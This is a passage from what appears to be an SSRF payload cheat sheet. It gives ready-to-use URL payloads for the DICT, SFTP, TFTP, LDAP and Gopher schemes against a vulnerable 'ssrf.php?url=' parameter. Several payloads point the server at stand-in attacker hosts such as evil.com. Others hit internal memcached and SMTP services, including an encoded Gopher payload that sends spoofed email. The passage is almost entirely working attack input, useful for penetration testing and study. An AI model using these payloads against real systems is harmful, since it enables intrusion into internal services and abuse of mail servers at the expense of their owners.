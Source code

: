The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Gopher

```powershell
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```
